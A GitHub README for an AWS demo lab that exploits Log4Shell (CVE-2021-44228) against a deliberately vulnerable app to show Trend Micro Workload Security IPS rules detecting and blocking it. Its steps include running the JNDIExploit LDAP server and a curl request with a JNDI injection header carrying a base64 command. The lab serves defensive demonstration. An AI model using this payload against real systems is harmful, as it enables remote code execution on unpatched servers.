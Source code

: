 # Cloud One - Workload Security Log4Shell
This repo contains a quick deployment template to showcase CVE-2021-44228 LOG4SHELL exploit and Workload Security Intrusion Prevention

### Note on CFT deployment in AWS regions
- I only added AMI Id's for US-EAST-1, US-EAST-2, US-WEST-1, US-WEST-2, CA-CENTRAL-1, SA-EAST-1, EU-WEST-1.

## Deploy CloudFormation Template

Parameters to Define:
- **KeyPair**: Name of a current Key Pair
- **IPforSSH**: restrict SSH access to your IP. Default is 0.0.0.0/0

[![Launch Stack](https://cdn.rawgit.com/buildkite/cloudformation-launch-stack-button-svg/master/launch-stack.svg)](https://console.aws.amazon.com/cloudformation/home#/stacks/new?stackName=c1-ws-log4shell&templateURL=https://aws-workshop-c1as-cft-templates.s3.amazonaws.com/c1-ws-log4shell.yaml)

![architecture](images/architecture.png)

---

## After CloudFormation Template Deployment

## 1. SSH into EC2 instance(Shell A)
    ```bash
    sudo su
    <Deploy Workload Security Agent deployment script with Linux Policy attached.>
    ```
![deployment_script](images/deploymentscript.png)

## 2. In Cloud One-WS: Assign IPS rule for CVE-2021-44228 to linux machine
    - IPS rule number: **1011242** or **1008610**
    - Assign rule and change to **Detect Only** for now.
    - Accept all rule dependencies.

![Click here for additional coverage on Apache Log4j "Log4Shell" Remote Code Execution 0-Day Vulnerability (CVE-2021-44228)](https://success.trendmicro.com/solution/000289940)
    
![ips_rule](images/ipsrule.png)
    
![detect_only](images/detectonly.png)

---

## 3. Start docker app(Shell A)

```bash
cd log4shell-vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```
![docker_run](images/dockerstart.png)

---

## 4. Open Second SSH session(Shell B) and run command to create LDAP server
* [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) provided by feihong-cs before it was removed from GitHub.
```bash
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

## 5. Run Exploit
- Open new SSH session(Shell C)

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
Notice the output(Shell B) of JNDIExploit, showing it has sent the malicious LDAP response and served the second-stage payload:

![shell-b](images/shell-b.png)

---

## 6. Confirm RCE was successful with the creation of pwned.txt file inside the running container's /tmp directory. 
- Using Shell C

```bash
docker exec vulnerable-app ls /tmp
```
![shell-c](images/shell-c.png)

---

## Repeat attack this time with IPS rule set to **Prevent**


## Reference
- Thank you [christophetd](https://github.com/christophetd/log4shell-vulnerable-app) for providing the vulnerable Spring Boot web application.
- Trend Micro Success: https://success.trendmicro.com/solution/000289940
- This web-based tool can help identify server applications that may be affected by the Log4Shell: https://log4j-tester.trendmicro.com/


